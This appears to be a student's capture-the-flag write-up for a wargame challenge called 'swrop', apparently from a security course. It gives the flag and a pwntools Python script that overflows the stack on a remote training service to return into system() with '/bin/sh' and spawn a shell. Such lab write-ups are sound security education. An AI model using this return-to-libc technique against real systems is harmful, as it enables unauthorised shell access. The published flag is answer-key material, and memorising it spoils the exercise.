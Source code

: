 # z5214048
## Wargame 6

swrop
===========================

Flag: COMP6447{this_was-easy}
> (but was it)?

General overview of problems faced
-------------------------------------
Had to hack the program:
1. Try sub/dec from ptr val of bin date string -fail
2. Ended up doing external offset to system alongside with the address oh /bin/sh in the local binary. Is it even an intended way given the flag text?


Script/Command used
------------------
```
#python2

from pwn import *

context.binary = './swrop'

io = remote("plzpwn.me", 6000)
#process('./swrop')
print(io.recvuntil('> '))

pay = 'A'*80
pay += p32(0xFFFFFFFA)
pay += '0'*52

# not used 1 
#pay += p32(0x080484D6)
# eax - ptr to bin date
# ebx - same, but otherwritten with rubbish
# edx - val of "bin date"
# ebp - no good

# 0x08048780 : dec ebp ; push cs ; and byte ptr [edi + 0xe], al ; adc al, 0x41 ; ret

# after vuln
# ebx - bin sh value

# 0x0804852c : push ebx ; call 0x8048417



system_plt_ddoff=p32(0x08048390)
c_exit=p32(0xf7df63d0)
sh_str=p32(0x080485F0)

main = p32(0x08048529)
main_subret = p32(0x0804855F)

pay += system_plt_ddoff
pay += c_exit
pay += sh_str
pay += main_subret


```